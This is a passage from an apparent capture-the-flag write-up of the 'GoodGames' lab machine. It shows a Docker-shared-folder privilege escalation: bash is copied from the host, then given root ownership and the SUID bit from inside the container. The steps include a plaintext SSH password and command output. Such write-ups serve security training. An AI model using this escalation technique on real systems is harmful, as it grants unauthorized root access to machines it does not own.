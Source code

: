```bash
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ sudo -l
sudo -l
-bash: sudo: command not found
augustus@GoodGames:~$ ls
ls
nmap  user.txt
```

Notice that the files in `augustus`'s actual folder seems to mimic the files in the Docker’s `augustus` folder.

```bash
augustus@GoodGames:~$ ls -la
ls -la
total 5832
drwxr-xr-x 2 augustus augustus    4096 Aug 15 14:18 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rwxr-xr-x 1 root     root     5944464 Aug 15 13:50 nmap
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Aug 15 14:10 user.txt
```

Recall that we used the docker container to grab `nmap` from our own server? It shows that it is owned by `root`. 

Perhaps we can copy `/bin/bash` to our current actual directory and then use the docker container to assign it with root privileges + SUID bit set?

```bash
augustus@GoodGames:~$ cp /bin/bash .
cp /bin/bash .
augustus@GoodGames:~$ ls  
ls
bash  nmap  user.txt
augustus@GoodGames:~$ exit
exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls
ls
bash  nmap  user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
chmod +s bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
...
augustus@GoodGames:~$ ls -la
ls -la
total 7040
drwxr-xr-x 2 augustus augustus    4096 Aug 15 15:01 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-sr-x 1 root     root     1234376 Aug 15 15:01 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rwxr-xr-x 1 root     root     5944464 Aug 15 13:50 nmap
```